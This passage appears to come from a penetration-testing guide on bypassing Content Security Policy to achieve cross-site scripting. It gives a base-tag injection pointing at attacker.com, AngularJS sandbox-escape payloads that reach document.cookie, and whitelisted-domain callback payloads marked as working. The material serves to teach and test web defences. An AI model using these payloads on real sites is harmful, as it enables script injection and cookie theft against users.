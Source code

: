 Moreover, if the **page is loading a script using a relative path** (like `<script src="/js/app.js">`) using a **Nonce**, you can abuse the **base** **tag** to make it **load** the script from **your own server achieving a XSS.**\
If the vulnerable page is loaded with **httpS**, make use an httpS url in the base.

```html
<base href="https://www.attacker.com/">
```

### AngularJS events

A specific policy known as Content Security Policy (CSP) may restrict JavaScript events. Nonetheless, AngularJS introduces custom events as an alternative. Within an event, AngularJS provides a unique object `$event`, referencing the native browser event object. This `$event` object can be exploited to circumvent the CSP. Notably, in Chrome, the `$event/event` object possesses a `path` attribute, holding an object array implicated in the event's execution chain, with the `window` object invariably positioned at the end. This structure is pivotal for sandbox escape tactics.

By directing this array to the `orderBy` filter, it's possible to iterate over it, harnessing the terminal element (the `window` object) to trigger a global function like `alert()`. The demonstrated code snippet below elucidates this process:

```xml
<input%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27>#x
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```

This snippet highlights the usage of the `ng-focus` directive to trigger the event, employing `$event.path|orderBy` to manipulate the `path` array, and leveraging the `window` object to execute the `alert()` function, thereby revealing `document.cookie`.

**Find other Angular bypasses in** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### AngularJS and whitelisted domain

```
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```

A CSP policy that whitelists domains for script loading in an Angular JS application can be bypassed through the invocation of callback functions and certain vulnerable classes. Further information on this technique can be found in a detailed guide available on this [git repository](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh\*t,-it's-CSP!%22).

Working payloads:

```html
<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

<!-- no longer working -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```
